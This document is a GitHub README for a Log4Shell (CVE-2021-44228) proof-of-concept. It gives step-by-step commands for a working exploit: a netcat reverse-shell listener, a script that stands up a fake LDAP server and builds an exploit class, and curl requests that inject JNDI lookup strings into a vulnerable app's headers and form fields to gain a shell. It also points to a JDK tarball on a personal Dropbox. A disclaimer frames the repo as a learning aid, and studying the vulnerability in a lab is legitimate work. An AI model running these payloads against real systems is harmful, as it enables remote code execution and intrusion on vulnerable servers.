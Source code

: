 # log4j-shell-poc

Cribbed from the great https://github.com/kozmer/log4j-shell-poc !!  

![image](https://user-images.githubusercontent.com/4404271/157152474-b3696c41-473e-47b3-9cb8-2b949cecb382.png)

![log4j-shell-poc](https://user-images.githubusercontent.com/4404271/157141049-9ce9dc50-5d8e-4794-84ca-7148825401e4.gif)


A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

#### Usage :

You need 4 terminals, or 3 terminals and a web browser!  
They are as follows:  

1) attacker terminal 1 of 3 (wow!): reverse shell cc reciever
2) attacker terminal 2 of 3: ldap listener enabler man in the middle jumper
3) attacker terminal 3 of 3: just a terminal to do a curl or use a web browser
4) victim terminal 1 of 1: run java app as docker container

Step 1) In terminal 1, Start  netcat to accept reverse shell connection:  
```py
nc -lvnp 9001
```

Step 2) In terminal 2, Launch the ldap listener jumper:  
**Note:** Must download jdk-8u202-linux-x64.tar.gz and extract to jdk1.8.0_202  

--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Now run it like this:

```bash
pip install -r requirements.txt
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
This script will setup the HTTP server (not sure what the http is for, but whatevs) and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.  

Step 3) In Terminal 3, Our vulnerable application  
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Step 4) In Terminal 4, Attack!  

```c
curl http://127.0.0.1:8080 -v  | grep session  
<snip>  
< HTTP/1.1 200 OK  
< Server: Apache-Coyote/1.1  
< Set-Cookie: JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600; Path=/; HttpOnly  
< Content-Type: text/html;charset=ISO-8859-1  
<snip>  
curl -v -A "\${jndi:ldap://localhost:1389/a}" -X POST -d uname="\${jndi:ldap://localhost:1389/a}" --cookie JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600 http://127.0.0.1:8080/login  
<snip>  
>  
* upload completely sent off: 37 out of 37 bytes  
```  

Step 5) Profit!!  

In terminal 1, type 'env' or 'whoami' and have a biscotti ... you earned it!  



Once it is running, you can access it on localhost:8080

Getting the Java version.
--------------------------------------
--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Kozmer did it with java-8u20 but Oracle seems to have scrubbed this off their download page, but they still had java-8u202 and that seemed fine. I updated the python script to use that path in a few place, and voila. If you can't get it from my dropbox, Oracle thankfully provides an archive for all previous java versions:  
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).  
Scroll down to `8u20` and download the tar.gz for amd64, and tar -xvfz in your log4j-shell-poc folder.

**Note:** Oracle makes you  make an account to be able to download the package :-)  

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.  
